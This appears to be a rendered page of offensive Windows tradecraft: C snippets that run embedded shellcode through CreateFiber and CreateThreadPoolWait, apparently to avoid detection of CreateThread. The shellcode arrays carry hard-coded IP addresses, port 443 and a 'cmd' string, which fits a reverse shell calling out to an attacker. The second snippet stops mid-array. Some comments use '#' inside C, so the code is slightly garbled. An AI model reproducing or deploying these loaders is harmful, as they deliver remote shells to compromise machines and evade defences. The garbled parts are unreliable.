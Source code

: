 ```c
	runtimeHost->Release();
	return 0;
}
```

- **`Execution Via CreateFiber instead of CreateThread`**

```c

#include <Windows.h>
int main(){    
#convert main thread to fiber    
PVOID mainFiber = ConvertThreadToFiber(NULL);    
unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xac\x14\x0a\x07\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";    
PVOID shellcodeLocation = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);    
memcpy(shellcodeLocation, shellcode, sizeof shellcode);    
#   create a fiber that will execute the shellcode    
PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)shellcodeLocation, NULL);    
# manually schedule the fiber that will execute our shellcode  
		   SwitchToFiber(shellcodeFiber);    
		   return 0;}
```

- **Execution Via CreateThreadPoolWait instead of CreateThread**

```c
#include <windows.h>
#include <threadpoolapiset.h>
	//CreateThread PoolWaitunsigned 
char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
```